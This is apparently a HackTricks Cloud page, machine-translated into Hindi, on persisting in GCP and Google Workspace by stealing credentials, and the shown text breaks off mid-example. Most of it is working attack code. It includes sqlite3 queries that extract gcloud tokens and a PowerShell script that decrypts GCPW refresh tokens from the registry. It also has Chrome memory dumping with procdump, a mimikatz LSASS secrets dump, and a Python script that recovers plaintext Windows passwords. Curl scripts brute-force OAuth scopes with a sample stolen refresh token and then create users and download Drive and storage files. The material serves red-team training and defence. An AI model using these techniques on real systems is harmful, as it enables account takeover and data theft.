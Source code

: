 # GCP - Non-svc Persistance

{% hint style="success" %}


paLearn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

ये तकनीकें उपयोगी हैं जब, किसी न किसी तरह, आपने कुछ GCP क्रेडेंशियल्स या GCP वातावरण में चल रही मशीन को समझौता कर लिया है।

## Token Hijacking

### Authenticated User Tokens

किसी उपयोगकर्ता का **वर्तमान टोकन** प्राप्त करने के लिए आप चला सकते हैं:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

इस पृष्ठ पर देखें कि **gcloud का उपयोग करके इस टोकन का सीधे उपयोग कैसे करें**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**नया एक्सेस टोकन उत्पन्न करने** के लिए विवरण प्राप्त करने के लिए चलाएँ:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

यह भी संभव है कि **`$HOME/.config/gcloud/application_default_credentials.json`** और **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** में रिफ्रेश टोकन पाए जाएं।

**रिफ्रेश टोकन**, क्लाइंट आईडी, और क्लाइंट सीक्रेट के साथ एक नया रिफ्रेश किया गया एक्सेस टोकन प्राप्त करने के लिए चलाएँ:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

**रिफ्रेश टोकन की वैधता** को **Admin** > **Security** > **Google Cloud session control** में प्रबंधित किया जा सकता है, और डिफ़ॉल्ट रूप से इसे 16 घंटे पर सेट किया गया है, हालांकि इसे कभी समाप्त न होने के लिए सेट किया जा सकता है:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### प्रमाणीकरण प्रवाह

जब `gcloud auth login` जैसे कुछ का उपयोग करते समय प्रमाणीकरण प्रवाह एक ब्राउज़र में एक प्रॉम्प्ट खोलेगा और सभी स्कोप को स्वीकार करने के बाद ब्राउज़र एक अनुरोध भेजेगा जैसे कि यह http पोर्ट पर उपकरण द्वारा खोला गया है:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
फिर, gcloud कुछ हार्डकोडेड `client_id` (`32555940559.apps.googleusercontent.com`) और **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) के साथ स्थिति और कोड का उपयोग करके **अंतिम रिफ्रेश टोकन डेटा** प्राप्त करेगा।

{% hint style="danger" %}
ध्यान दें कि localhost के साथ संचार HTTP में है, इसलिए डेटा को इंटरसेप्ट करना संभव है ताकि एक रिफ्रेश टोकन प्राप्त किया जा सके, हालाँकि यह डेटा केवल 1 बार के लिए मान्य है, इसलिए यह बेकार होगा, इसे फ़ाइल से रिफ्रेश टोकन पढ़ना आसान है।
{% endhint %}

### OAuth Scopes

आप सभी Google स्कोप [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) पर पा सकते हैं या उन्हें निष्पादित करके प्राप्त कर सकते हैं:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

इस स्क्रिप्ट के साथ यह देखना संभव है कि **`gcloud`** द्वारा प्रमाणीकरण के लिए उपयोग किया जाने वाला एप्लिकेशन कौन से स्कोप का समर्थन कर सकता है:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
इसके निष्पादन के बाद यह जांचा गया कि यह ऐप इन स्कोप का समर्थन करता है:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
यह देखना दिलचस्प है कि यह ऐप **`drive`** स्कोप का समर्थन करता है, जो एक उपयोगकर्ता को GCP से Workspace में बढ़ाने की अनुमति दे सकता है यदि एक हमलावर उपयोगकर्ता को इस स्कोप के साथ एक टोकन उत्पन्न करने के लिए मजबूर करने में सफल होता है।

**यहाँ देखें कि कैसे** [**इसका दुरुपयोग करें**](../gcp-to-workspace-pivoting/#abusing-gcloud)**।**

### सेवा खाते

जैसे कि प्रमाणित उपयोगकर्ताओं के साथ, यदि आप एक सेवा खाते की **निजी कुंजी फ़ाइल को समझौता** करने में सफल होते हैं, तो आप इसे **आम तौर पर जितना चाहें उतना एक्सेस कर सकेंगे**।\
हालांकि, यदि आप एक सेवा खाते का **OAuth टोकन** चुरा लेते हैं, तो यह और भी दिलचस्प हो सकता है, क्योंकि, भले ही डिफ़ॉल्ट रूप से ये टोकन केवल एक घंटे के लिए उपयोगी होते हैं, यदि **पीड़ित निजी एपीआई कुंजी को हटा देता है, तो OAuh टोकन तब भी मान्य रहेगा जब तक कि यह समाप्त नहीं हो जाता**।

### मेटाडेटा

स्पष्ट रूप से, जब तक आप GCP वातावरण में चल रही मशीन के अंदर हैं, आप **उस मशीन से जुड़े सेवा खाते तक पहुँच प्राप्त कर सकेंगे, जो मेटाडेटा एंडपॉइंट से संपर्क करके**। (ध्यान दें कि इस एंडपॉइंट में आप जो Oauth टोकन एक्सेस कर सकते हैं, वे आमतौर पर स्कोप द्वारा प्रतिबंधित होते हैं)।

### सुधार

इन तकनीकों के लिए कुछ सुधार [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) में समझाए गए हैं।

## GCPW - Windows के लिए Google क्रेडेंशियल प्रदाता

यह एकल साइन-ऑन है जो Google Workspaces प्रदान करता है ताकि उपयोगकर्ता अपने Windows PCs में **अपने Workspace क्रेडेंशियल्स** का उपयोग करके लॉगिन कर सकें। इसके अलावा, यह कुछ स्थानों पर Google Workspace तक पहुँचने के लिए टोकन संग्रहीत करेगा।

यह जांचना संभव है कि क्या GCPW किसी डिवाइस में स्थापित है, यह जांचकर कि क्या निम्नलिखित प्रक्रिया मौजूद है या यदि निम्नलिखित रजिस्ट्री कुंजी मौजूद हैं:
```powershell
# Check process gcpw_extension.exe
if (Get-Process -Name "gcpw_extension" -ErrorAction SilentlyContinue) {
Write-Output "The process gcpw_xtension.exe is running."
} else {
Write-Output "The process gcpw_xtension.exe is not running."
}

# Check if HKLM\SOFTWARE\Google\GCPW\Users exists
$gcpwHKLMPath = "HKLM:\SOFTWARE\Google\GCPW\Users"
if (Test-Path $gcpwHKLMPath) {
Write-Output "GCPW is installed: The key $gcpwHKLMPath exists."
} else {
Write-Output "GCPW is not installed: The key $gcpwHKLMPath does not exist."
}

# Check if HKCU\SOFTWARE\Google\Accounts exists
$gcpwHKCUPath = "HKCU:\SOFTWARE\Google\Accounts"
if (Test-Path $gcpwHKCUPath) {
Write-Output "Google Accounts are present: The key $gcpwHKCUPath exists."
} else {
Write-Output "No Google Accounts found: The key $gcpwHKCUPath does not exist."
}
```
वास्तव में **`HKLM:\SOFTWARE\Google\GCPW\Users`** में **domains** मिलना संभव है जो कि `domains_allowed` कुंजी में लॉगिन करने की अनुमति है और उपकुंजियों में उपयोगकर्ता के बारे में जानकारी जैसे ईमेल, चित्र, उपयोगकर्ता नाम, टोकन जीवनकाल आदि मिल सकता है...

और **`HKCU:\SOFTWARE\Google\Accounts`** में उपयोगकर्ता का ईमेल और एन्क्रिप्टेड **refresh token** तक पहुंचना संभव है यदि उपयोगकर्ता हाल ही में लॉगिन किया है।

### GCPW - रजिस्ट्री रिफ्रेश टोकन

रजिस्ट्री **`HKCU:\SOFTWARE\Google\Accounts`** के अंदर कुछ खातों को **`refresh_token`** एन्क्रिप्टेड के साथ मिलना संभव है। विधि **`ProtectedData.Unprotect`** इसे आसानी से डिक्रिप्ट कर सकती है।

<details>

<summary>Get <strong><code>HKCU:\SOFTWARE\Google\Accounts</code></strong> data and decrypt refresh_tokens</summary>
```powershell
# Import required namespace for decryption
Add-Type -AssemblyName System.Security

# Base registry path
$baseKey = "HKCU:\SOFTWARE\Google\Accounts"

# Function to search and decrypt refresh_token values
function Get-RegistryKeysAndDecryptTokens {
param (
[string]$keyPath
)

# Get all values within the current key
$registryKey = Get-Item -Path $keyPath
$foundToken = $false

# Loop through properties to find refresh_token
foreach ($property in $registryKey.Property) {
if ($property -eq "refresh_token") {
$foundToken = $true
try {
# Get the raw bytes of the refresh_token from the registry
$encryptedTokenBytes = (Get-ItemProperty -Path $keyPath -Name $property).$property

# Decrypt the bytes using ProtectedData.Unprotect
$decryptedTokenBytes = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedTokenBytes, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
$decryptedToken = [System.Text.Encoding]::UTF8.GetString($decryptedTokenBytes)

Write-Output "Path: $keyPath"
Write-Output "Decrypted refresh_token: $decryptedToken"
Write-Output "-----------------------------"
}
catch {
Write-Output "Path: $keyPath"
Write-Output "Failed to decrypt refresh_token: $($_.Exception.Message)"
Write-Output "-----------------------------"
}
}
}

# Recursively process all subkeys
Get-ChildItem -Path $keyPath | ForEach-Object {
Get-RegistryKeysAndDecryptTokens -keyPath $_.PSPath
}
}

# Start the search from the base key
Get-RegistryKeysAndDecryptTokens -keyPath $baseKey
```
</details>

उदाहरण आउट:

{% code overflow="wrap" %}
```
Path: Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\SOFTWARE\Google\Accounts\100402336966965820570Decrypted refresh_token: 1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI
```
{% endcode %}

जैसा कि [**इस वीडियो**](https://www.youtube.com/watch?v=FEQxHRRP\_5I) में समझाया गया है, यदि आप रजिस्ट्री में टोकन नहीं पाते हैं, तो **`HKLM:\SOFTWARE\Google\GCPW\Users\<sid>\th`** से मान को संशोधित (या हटाना) संभव है और अगली बार जब उपयोगकर्ता कंप्यूटर का उपयोग करेगा, तो उसे फिर से लॉगिन करना होगा और **टोकन पिछले रजिस्ट्री में संग्रहीत होगा**।

### GCPW - डिस्क रिफ्रेश टोकन

फाइल **`%LocalAppData%\Google\Chrome\User Data\Local State`** में **`refresh_tokens`** को डिक्रिप्ट करने के लिए कुंजी संग्रहीत होती है जो उपयोगकर्ता के **Google Chrome प्रोफाइल** के अंदर स्थित होती है जैसे:

* `%LocalAppData%\Google\Chrome\User Data\Default\Web Data`
* `%LocalAppData%\Google\Chrome\Profile*\Default\Web Data`

इन टोकनों को उनके डिक्रिप्टेड रूप में एक्सेस करने वाले कुछ **C# कोड** को [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) में पाया जा सकता है।

इसके अलावा, एन्क्रिप्टिंग इस कोड में पाई जा सकती है: [https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L216)

यह देखा जा सकता है कि AESGCM का उपयोग किया गया है, एन्क्रिप्टेड टोकन एक **संस्करण** (**`v10`** इस समय) से शुरू होता है, फिर इसमें [**12B का नॉनस**](https://github.com/chromium/chromium/blob/7b5e817cb016f946a29378d2d39576a4ca546605/components/os\_crypt/sync/os\_crypt\_win.cc#L42) होता है, और फिर इसमें **साइफर-टेक्स्ट** होता है जिसमें अंतिम **mac 16B** होता है।

### GCPW - प्रक्रियाओं की मेमोरी से टोकन डंप करना

निम्नलिखित स्क्रिप्ट का उपयोग **Chrome** प्रक्रिया को **dump** करने के लिए किया जा सकता है, `procdump` का उपयोग करके, **स्ट्रिंग्स** को निकालें और फिर **access और refresh tokens** से संबंधित स्ट्रिंग्स के लिए **खोजें**।

**मेरे अनुभव में, यह Chrome प्रक्रियाओं से कोई टोकन डंप नहीं करता है या यहां तक कि `gcpw_extension.exe` प्रक्रिया भी नहीं।**

<details>

<summary>Chrome प्रक्रियाओं को डंप करें और टोकन खोजें</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\path\to\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\path\to\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\ChromeDumps"
$targetString = "ya29" # "1//" for refresh_tokens

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "chrome" | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for the target string in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$asciiStringsOutputFile = "$dumpFolder\chrome_$($_.BaseName)_ascii_strings.txt"
$unicodeStringsOutputFile = "$dumpFolder\chrome_$($_.BaseName)_unicode_strings.txt"

Write-Output "Extracting ASCII strings from $dumpFile"
& $stringsPath $dumpFile > $asciiStringsOutputFile

Write-Output "Extracting UTF-16 strings from $dumpFile"
& $stringsPath -u $dumpFile > $unicodeStringsOutputFile

Write-Output "Searching for '$targetString' in $asciiStringsOutputFile"
Select-String -Path $asciiStringsOutputFile -Pattern $targetString | ForEach-Object {
Write-Output $_.Line
}

Write-Output "Searching for '$targetString' in $unicodeStringsOutputFile"
Select-String -Path $unicodeStringsOutputFile -Pattern $targetString | ForEach-Object {
Write-Output $_.Line
}
}
```
</details>

### GCPW - स्पष्ट पाठ पासवर्ड को पुनर्प्राप्त करना

GCPW का दुरुपयोग करके स्पष्ट पाठ पासवर्ड को पुनर्प्राप्त करने के लिए, **mimikatz** का उपयोग करके **LSASS** से एन्क्रिप्टेड पासवर्ड को डंप करना संभव है:
```
mimikatz_trunk\x64\mimikatz.exe token::elevate lsadump::secrets exit
```
फिर छवि में की तरह `Chrome-GCPW-<sid>` जैसे गुप्त को खोजें:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

फिर, **एक्सेस टोकन** के साथ जो स्कोप `https://www.google.com/accounts/OAuthLogin` है, यह पासवर्ड को डिक्रिप्ट करने के लिए निजी कुंजी का अनुरोध करना संभव है:

<details>

<summary>एक्सेस टोकन, एन्क्रिप्टेड पासवर्ड और संसाधन आईडी दिए जाने पर स्पष्ट पाठ में पासवर्ड प्राप्त करने के लिए स्क्रिप्ट</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

### GCPW - रिफ्रेश टोकन से एक्सेस टोकन उत्पन्न करना

रिफ्रेश टोकन का उपयोग करके, इसे और निम्नलिखित कमांड में निर्दिष्ट क्लाइंट आईडी और क्लाइंट सीक्रेट का उपयोग करके एक्सेस टोकन उत्पन्न करना संभव है:
```bash
curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
\
https://www.googleapis.com/oauth2/v4/token
```
### GCPW - स्कोप्स

डिफ़ॉल्ट रूप से GCPW के पास उपयोगकर्ता के रूप में हर संभावित OAuth स्कोप तक पहुंच नहीं होगी, इसलिए निम्नलिखित स्क्रिप्ट का उपयोग करके हम उन स्कोप्स को खोज सकते हैं जिन्हें `refresh_token` के साथ `access_token` उत्पन्न करने के लिए उपयोग किया जा सकता है:

<details>

<summary>स्कोप्स को ब्रूट-फोर्स करने के लिए बैश स्क्रिप्ट</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

और यह वह आउटपुट है जो मुझे लेखन के समय मिला:
```
Valid scopes:
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin
```
**सभी स्कोप के साथ एक एक्सेस टोकन प्राप्त करें**:

<details>

<summary>सभी स्कोप के साथ refresh_token से एक्सेस टोकन उत्पन्न करने के लिए बैश स्क्रिप्ट</summary>
```bash
export scope=$(echo "https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/calendar.events
https://www.googleapis.com/auth/calendar.events.readonly
https://www.googleapis.com/auth/calendar.readonly
https://www.googleapis.com/auth/classroom.courses.readonly
https://www.googleapis.com/auth/classroom.coursework.me.readonly
https://www.googleapis.com/auth/classroom.coursework.students.readonly
https://www.googleapis.com/auth/classroom.profile.emails
https://www.googleapis.com/auth/classroom.profile.photos
https://www.googleapis.com/auth/classroom.rosters.readonly
https://www.googleapis.com/auth/classroom.student-submissions.me.readonly
https://www.googleapis.com/auth/classroom.student-submissions.students.readonly
https://www.googleapis.com/auth/cloud-translation
https://www.googleapis.com/auth/cloud_search.query
https://www.googleapis.com/auth/devstorage.read_write
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/drive.apps.readonly
https://www.googleapis.com/auth/drive.file
https://www.googleapis.com/auth/drive.readonly
https://www.googleapis.com/auth/ediscovery
https://www.googleapis.com/auth/firebase.messaging
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/tasks
https://www.googleapis.com/auth/tasks.readonly
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/userinfo.profile
https://www.google.com/accounts/OAuthLogin" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

कुछ उदाहरण उन स्कोप्स का उपयोग करते हुए:

<details>

<summary>https://www.googleapis.com/auth/userinfo.email &#x26; https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/spreadsheets</summary>
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
